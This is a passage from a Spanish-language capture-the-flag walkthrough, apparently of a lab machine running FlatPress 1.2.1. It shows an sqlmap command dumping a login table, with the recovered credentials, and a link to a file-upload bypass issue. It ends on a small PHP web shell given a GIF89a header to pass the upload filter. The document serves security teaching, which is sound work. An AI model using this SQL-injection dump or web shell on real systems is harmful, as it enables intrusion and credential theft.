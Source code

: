 <br>

Como ya conocemos las columnas que tiene esa tabla, simplemente dumpeemos los datos que tiene:
```bash
sqlmap -u 'http://192.168.100.70:8080/' --batch --forms -D 'FlatPress' -T 'login' --dump
...
[13:23:09] [INFO] fetching entries for table 'login' in database 'FlatPress'
Database: FlatPress
Table: login
[1 entry]
+----+--------+-----------------------+
| id | user   | password              |
+----+--------+-----------------------+
| 1  | r0dgar | SNIETbkGBCnhFqeUJuqBO |
+----+--------+-----------------------+
```

| Parámetros | Descripción |
|--------------------------|
| *-u*       | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--forms*  | Analiza y prueba formularios en la URL objetivo. |
| *-D*       | Selecciona una base de datos específica a enumerar. |
| *-T*       | Selecciona una tabla específica a enumerar. |
| *--dump*   | Extraer datos de una tabla específica. |

<br>

Y volvimos a obtener las credenciales de acceso.

Continuemos.

<br>

<h2 id="FlatPressBypass">Aplicando Bypass a Carga de Archivos de FlatPress Ver. 1.2.1 (File Upload Bypass + RCE)</h2>

Recordando que el **FlatPress** es la **versión 1.2.1**, podemos buscarle un Exploit.

Encontré el siguiente:
* <a href="https://github.com/flatpressblog/flatpress/issues/152" target="_blank">Flatpress 1.2.1 - File upload bypass to RCE Vulnerebility</a>

En este ticket de **GitHub** hacia el repositorio de **FlatPress**, explica cómo es que podemos aplicar un Bypass a la carga de archivos, pues siempre evita que podamos subir **archivos PHP**, lo que nos impide cargar una **WebShell** o **Reverse Shell**.

Vamos a aplicarlo.

Crea la siguiente **WebShell**:
```bash
GIF89a;
<?php
system($_GET['cmd']);
?>
```
